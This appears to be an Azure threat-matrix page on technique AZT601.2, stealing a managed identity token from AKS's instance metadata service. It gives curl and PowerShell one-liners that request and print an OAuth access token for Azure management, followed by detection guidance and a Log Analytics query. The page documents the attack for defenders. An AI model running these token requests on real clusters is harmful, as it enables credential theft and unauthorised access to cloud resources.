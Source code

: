 # AZT601.2 - Steal Managed Identity JsonWebToken: Azure Kubernetes Service IMDS Request

By utilizing access to IMDS, an attacker can request a JWT for a Managed Identity on an AKS Cluster if they have access to execute commands on the system.

!!! info "Resource" 

	Azure Kubernetes Service

!!! success "Actions" 

	* Microsoft.ContainerService/managedClusters/runcommand/action
	* Microsoft.ContainerService/managedclusters/commandResults/read

!!! example "Examples"

	=== "Python"
	
		`#!python curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s`

	=== "PowerShell"
		
		[`#!powershell powershell.exe -c $a=Invoke-Restmethod -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01"&"resource=https://management.azure.com/' -Method GET -Headers @{Metadata='true'} -UseBasicParsing;$a.access_token`](https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-to-use-vm-token)
		
    === "Azure Portal"

		![aks](aks.PNG)

!!! abstract "Detections"

	## **Detection Details**

	Logs are only generated when running a command through az cli or Az PowerShell. Using `kubectl` will not generate logs.

	## **Logs**  

    | Data Source        | Operation Name     | Action                                                            | Log Location |
    |--------------------|---------------------|-------------------------------------------------------------------|--------------|
    | Resource | RunCommand	 | Microsoft.ContainerService/managedClusters/runCommand/action	| Azure Activity Log |
    
    ## ** Queries**


	=== "Log Analytics"
	```AzureActivity 
	|where OperationNameValue=="Microsoft.ContainerService/managedClusters/runCommand/action" 
	```


!!! faq "Additional Resources"

	* [https://docs.microsoft.com/en-us/azure/aks/command-invoke](https://docs.microsoft.com/en-us/azure/aks/command-invoke)
	* [https://docs.microsoft.com/en-us/azure/aks/use-managed-identity](https://docs.microsoft.com/en-us/azure/aks/use-managed-identity)
